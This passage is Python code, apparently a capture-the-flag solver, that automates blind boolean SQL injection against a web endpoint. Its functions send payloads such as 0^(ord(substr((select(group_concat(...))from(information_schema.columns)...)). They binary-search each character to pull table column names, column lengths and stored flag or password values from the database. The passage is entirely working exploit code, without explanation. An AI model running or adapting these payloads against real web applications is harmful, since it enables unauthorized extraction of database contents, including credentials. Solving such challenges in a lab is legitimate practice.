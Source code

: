 ```python
            break
        
        
def get_columns_name(table_name='Flaaaaag', column_length=16):
    """ 获取列名 """
    columns = ''
    for i in range(1, column_length + 1): # 因为表长度为16
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            tmp_url = f"{url}0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='{table_name}')),{i},1))<{mid})"
            print(tmp_url, low, high)
            resp = requests.get(tmp_url, timeout=8)
            if "NO! Not this! Click others~~~" in resp.text:
                high = mid
            else:
                low = mid + 1
            mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        columns += chr(mid - 1)
        print(columns)
    print(f"Column is: {columns}")
    
def get_flag_value():
    column_values = ''
    for i in range(1, 17): # 因为表长度为16
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            tmp_url = f"{url}0^(ord(substr((select(group_concat(fl4gawsl))from(Flaaaaag)),{i},1))<{mid})"
            print(tmp_url, low, high)
            resp = requests.get(tmp_url, timeout=8)
            if "NO! Not this! Click others~~~" in resp.text:
                high = mid
            else:
                low = mid + 1
            mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        column_values += chr(mid - 1)
        print(column_values)
    print(f"value is: {column_values}")
    
    
def get_all_column_length(column_name='password', table_name='F1naI1y'):
    """ 获取列长度 """
    for i in range(300):
        tmp_url = f"{url}0^((select(length(group_concat({column_name})))from({table_name}))={i})"
        print(tmp_url)
        resp = requests.get(tmp_url, timeout=8)
        if "NO! Not this! Click others~~~" in resp.text:
            print(f"All Column length is: {i}")
            break
    
def get_final_flag_value():
    column_values = ''
    for i in range(1, 300):
        low = 32
```
